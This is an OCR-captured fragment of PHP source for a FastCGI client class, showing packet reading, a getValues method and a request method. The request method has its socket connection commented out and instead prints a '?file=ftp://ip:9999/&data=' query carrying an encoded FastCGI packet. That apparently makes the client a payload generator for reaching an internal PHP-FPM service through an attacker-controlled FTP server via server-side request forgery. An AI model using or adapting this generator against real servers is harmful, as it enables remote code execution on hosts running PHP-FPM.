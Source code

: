 ```
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
```